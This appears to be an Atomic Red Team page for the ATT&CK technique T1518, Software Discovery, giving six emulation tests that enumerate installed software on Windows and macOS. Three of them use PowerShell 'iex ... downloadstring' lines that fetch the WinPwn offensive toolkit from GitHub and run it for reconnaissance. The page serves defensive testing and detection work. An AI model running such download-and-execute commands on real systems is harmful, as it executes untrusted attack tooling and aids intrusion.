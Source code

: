 # T1518 - Software Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1518)
<blockquote>

Adversaries may attempt to get a listing of software and software versions that are installed on a system or in a cloud environment. Adversaries may use the information from [Software Discovery](https://attack.mitre.org/techniques/T1518) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Such software may be deployed widely across the environment for configuration management or security reasons, such as [Software Deployment Tools](https://attack.mitre.org/techniques/T1072), and may allow adversaries broad access to infect devices or move laterally.

Adversaries may attempt to enumerate software for a variety of reasons, such as figuring out what security measures are present or if the compromised system has a version of software that is vulnerable to [Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Find and Display Internet Explorer Browser Version](#atomic-test-1---find-and-display-internet-explorer-browser-version)

- [Atomic Test #2 - Applications Installed](#atomic-test-2---applications-installed)

- [Atomic Test #3 - Find and Display Safari Browser Version](#atomic-test-3---find-and-display-safari-browser-version)

- [Atomic Test #4 - WinPwn - Dotnetsearch](#atomic-test-4---winpwn---dotnetsearch)

- [Atomic Test #5 - WinPwn - DotNet](#atomic-test-5---winpwn---dotnet)

- [Atomic Test #6 - WinPwn - powerSQL](#atomic-test-6---winpwn---powersql)


<br/>

## Atomic Test #1 - Find and Display Internet Explorer Browser Version
Query the registry to determine the version of internet explorer installed on the system.
Upon execution, version information about internet explorer will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 68981660-6670-47ee-a5fa-7e74806420a4






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
```






<br/>
<br/>

## Atomic Test #2 - Applications Installed
Query the registry to determine software and versions installed on the system. Upon execution a table of
software name and version information will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** c49978f6-bd6e-4221-ad2c-9e3e30cc1e3b






#### Attack Commands: Run with `powershell`! 


```powershell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
```






<br/>
<br/>

## Atomic Test #3 - Find and Display Safari Browser Version
Adversaries may attempt to get a listing of non-security related software that is installed on the system. Adversaries may use the information from Software Discovery during automated discovery to shape follow-on behaviors

**Supported Platforms:** macOS


**auto_generated_guid:** 103d6533-fd2a-4d08-976a-4a598565280f






#### Attack Commands: Run with `sh`! 


```sh
/usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Dotnetsearch
Search for any .NET binary file in a share using the Dotnetsearch function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7e79a1b6-519e-433c-ad55-3ff293667101






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Dotnetsearch -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #5 - WinPwn - DotNet
Search for .NET Service-Binaries on this system via winpwn dotnet function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 10ba02d0-ab76-4f80-940d-451633f24c5b






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
dotnet -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - powerSQL
Start PowerUpSQL Checks using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 0bb64470-582a-4155-bde2-d6003a95ed34






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powerSQL -noninteractive -consoleoutput
```






<br/>
